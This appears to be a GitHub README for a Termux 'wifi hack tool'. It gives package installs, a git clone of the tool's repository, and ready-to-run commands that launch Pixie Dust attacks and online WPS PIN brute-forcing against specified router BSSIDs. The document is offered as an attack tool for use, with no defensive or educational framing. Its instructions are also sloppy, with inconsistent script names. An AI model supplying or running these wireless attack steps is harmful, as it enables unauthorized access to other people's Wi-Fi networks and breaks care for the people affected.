 <!--- mark down --->
---
# wifi hack tool all run to rejaul
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

## github link:-

``` git clone https://github.com/princeicon2712/rejaul2712.git ```

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

``` Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

``` wps router push button:- sudo python rejaul1.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

<!--[profile](./rejaul.jpg)-->
<img src="rejaul.jpg" width="600"/>
